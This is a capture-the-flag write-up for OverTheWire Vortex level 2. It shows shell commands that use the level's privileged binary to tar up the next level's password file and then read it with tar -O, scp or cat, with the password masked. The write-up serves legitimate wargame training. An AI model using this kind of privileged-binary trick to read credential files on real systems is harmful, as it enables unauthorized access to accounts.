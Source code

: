 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 2"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex2.png)

## Context
The binary from [level 2](http://overthewire.org/wargames/vortex/vortex2.html) creates a _special file_, one whose name contains _**\$\$**_: _ownership.\$\$.tar_. As detailed in the [bash manual](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html#Special-Parameters), the $ variable:
> Expands to the process ID of the shell. In a () subshell, it expands to the process ID of the invoking shell, not the subshell.

This binary file has permissions to read the password file from the next level, so what we have to do is archive the password file, and then read it, taking into account the special file name.

First, to create the archive:
```bash
vortex2@melissa:/etc/vortex_pass$ /vortex/vortex2 vortex3 vortex3 vortex3
vortex2@melissa:/etc/vortex_pass$ ls -alh '/tmp/ownership.$$.tar'
-rw-r--r-- 1 vortex3 vortex2 10K 2012-09-06 23:19 /tmp/ownership.$$.tar
```

File created. Now to untar and read the content: 

### Method 1

We cannot untar it there, so the **-O** option (output to _`STDOUT`_) is very useful :
```bash
vortex2@melissa:/etc/vortex_pass$ tar xf '/tmp/ownership.$$.tar' -O
*****
```

### Method 2

We could copy it locally with _`scp`_ and untar it. I had a little problem with the file name passed forward by scp, which can be seen and adapted with verbose mode, then check the transmitted file name and adjust it:
```bash
scp -v vortex2@vortex.labs.overthewire.org:'test$$' .
[..]
debug1: Sending command: scp -v -f test$$
scp: test415: No such file or directory
```

We see that **$$** is transmitted,  and will be interpreted, so it should be correctly escaped. Copy archive locally:
```bash
# scp vortex2@vortex.labs.overthewire.org:'/tmp/ownership.\$\$.tar' .
```

### Method 3
The _`tar`_ command from the binary does not use compression, so the content of the archive can be viewed: 
```bash
vortex2@melissa:/etc/vortex_pass$ cat '/tmp/ownership.$$.tar'
[..]
*****
```
